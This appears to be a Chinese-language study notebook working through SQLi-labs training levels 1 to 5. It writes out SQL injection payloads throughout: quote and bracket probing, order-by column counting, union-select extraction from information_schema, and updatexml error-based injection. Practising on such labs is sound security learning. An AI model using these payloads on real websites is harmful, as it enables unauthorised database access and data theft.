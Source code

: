 截图：先按下面两个，再按a
# 习惯流程
- ?id=1
- ?id=1 and 1=2
- ?id=1 and 1=2 -- a
- ?id=1' and 1=2 -- a
- ?id=1 and 1=2' -- a
- ?id=1" and 1=2 -- a
......
# 总
- 先找出能正常执行的语句
- database(),updatexml
- 前面的语句（单引，双引，括号）+and 1=2 如果页面有变化，说明后面的语句被执行
- 先看能不能直接注入，再加上'尝试闭合，再')，再",
- 看结果：选择联合注入、布尔盲注
![alt text](image-37.png)

首先要通过一些语句来判断是否存在注入点，观察是否存在页面变化
limit从0开始计算
database()返回数据库名称，table_schema是数据库名称
table_name得到表名
![alt text](image-15.png)
# 资料
[b站](https://www.bilibili.com/video/BV1aS4y1W78p?p=3&vd_source=2552ef659ebde2f6dadff1230dbbb677)
# 1 (' ----- %27)
- ?id=1
![alt text](image.png)

- ?id=1 and 1=2(没变化，说明1=2没有被执行)
![alt text](image-2.png)

- ?id=1' and 1=1 -- a(a可以换，防止--后面的空格被忽略)
![alt text](image-3.png)

- ?id=1' and 1=2 -- a【页面异常，说明将1=2当作代码执行。可能存在sqli漏洞】
![alt text](image-1.png)

- ?id=1'order by 1 -- a（order by 1 表示按查询结果的第 1 列排序，尝试1，2，3）
![alt text](image-4.png)

- ?id=1'order by 4 -- a【异常】【说明有三个字段】
![alt text](image-5.png)

- ?id=1' union select 1,22,333 -- a(union用于将两个或多个 SELECT 语句的结果合并成一个结果集)【用联合查询】(依旧没变化)
![alt text](image-6.png)

- ?id=-1'union select 1,22,333 -- a（因为id=1显示在前面，所以没有显示后面的结果）（现错位）【核心目的：通过不同数字的显示情况，精准定位哪些字段会被页面输出，为后续替换成数据库函数（如database()、version()）或敏感数据（如用户名、密码）做准备】
![alt text](image-7.png)

- ?id=-1'union select 1,database(),333 -- a【database()用于返回当前数据库的名称】
![alt text](image-8.png)

- ?id=-1'union select 1,table_name,333 from information_schema.tables where table_schema='security' -- a(information_schema是 MySQL 内置的系统数据库，存储了整个数据库的元数据（如数据库名、表名、字段名等）。tables是information_schema中的表，专门存储所有表的信息，其中table_name字段记录表名，table_schema字段记录该表所属的数据库名。)【判断表名】
![alt text](image-9.png)

- ?id=-1'union select 1,table_name,333 from information_schema.tables where table_schema='security' limit 1,1 -- a【改变limit后的值，得出不同的结果】(注意table哪里有s)
![alt text](image-10.png)
![alt text](image-11.png)

- ?id=-1'union select 1,column_name,333 from information_schema.columns where table_schema='security'and table_name='emails' -- a【判断列名】
![alt text](image-12.png)

- ?id=-1'union select 111,email_id,333 from emails -- a（都可以加limit）
![alt text](image-16.png)

- 库名security
  - 表名emails、referers、uagents、users
    - 列名
    - emails：id\email_is\
    - referers:id\referer\ip_adress
    - uagents:uagent\ipadress\username
    - users:id\username\passwards

# 2
- ?id=1
- ?id=1'   和   ?id=1"  都报错
![alt text](image-17.png)
![alt text](image-18.png)

- ?id=1 and 1=2   和  ?id=1 and 1=1  结果不同（说明可能可以不用加'直接注入）
![alt text](image-19.png)
![alt text](image-20.png)

- ?id=1 order by 1 -- a(只能到3)
![alt text](image-21.png)

- ?id=-1 union select 111,222,333 -- a【说明可以注入】
![alt text](image-22.png)

- ?id=-1 union select 111,database(),333 -- a
- ?id=-1 union select 111,table_name,333 from information_schema.tables where table_schema='security' limit 0,1 -- a
- ?id=-1 union select 111,column_name,333 from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1 -- a
- ?id=-1 union select 111,id,333 from emails -- a

# 3
- ?id=1
- ?id=1'
![alt text](image-23.png)

- ?id=1 and 1=2(照样有输出)【和第二题返回的信息不同，有括号】
![alt text](image-24.png)

- ?id=1) and 1=1
![alt text](image-25.png)

- ?id=1) and 1=2 
![alt text](image-26.png)

- sql语句可能是：（在括号里面不会被当作代码执行）
![alt text](image-27.png)

- ?id=1') and 1=2 
![alt text](image-28.png)

- ?id=1') order by 1 -- a(只能到4)
![alt text](image-29.png)

- ?id=-1') union select 111,222,333 -- a
......

# 4
- ?id=1' and 1=2(说明1=2没有执行，可能在括号内)
![alt text](image-30.png)

- ?id=1') and 1=2(还是没反应)
![alt text](image-31.png)

- ?id=1" and 1=2(双引号，有反应)
![alt text](image-32.png)

- ?id=1" order by 1 -- a
![alt text](image-33.png)

- ?id=1") order by 1 -- a
![alt text](image-34.png)

- ?id=-1") union select 111,222,333 -- a
![alt text](image-35.png)
......

# 5
- ?id=1
![alt text](image-36.png)

- ?id=1' and 1=2(可能存在)
![alt text](image-38.png)

- ?id=1' and 1=2 -- a
![alt text](image-39.png)

- ?id=1' and 1=1 -- a
![alt text](image-40.png)

- ?id=1' order by 1 -- a（到4时到头）
![alt text](image-41.png)
![alt text](image-42.png)

- ?id=-1' union select 111,222,333 -- a(无现错位)
![alt text](image-43.png)

- 【联合注入是需要页面有回显位】
- 【如果数据不显示只有对错页面显示我们可以选择布尔盲注】
- 【布尔盲注主要用到length(),ascii() ,substr()这三个函数，首先通过length()函数确定长度再通过另外两个确定具体字符是什么】
- 【或者可以试试报错注入，比盲注方便 updataxml() 】【语法：updatexml(目标xml内容，xml文档路径，更新的内容)】
![alt text](image-44.png)
- 【updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)】(前面用and链接)

- ?id=1'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1) -- a（查出了库名）【date!!!】
![alt text](image-46.png)

- ?id=1'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1) -- a【后面记得用 -- 】
![alt text](image-47.png)

- ?id=1'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security'and table_name='emails'limit 0,1),0x7e),1) -- a【中间核心那一坨要加上括号,也不要忘了select!!!!】【不是schema_table】【0x7e不要忘！】【limit从0开始，substr从1开始】
![alt text](image-48.png)

- ?id=1' and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1) -- a
![alt text](image-49.png)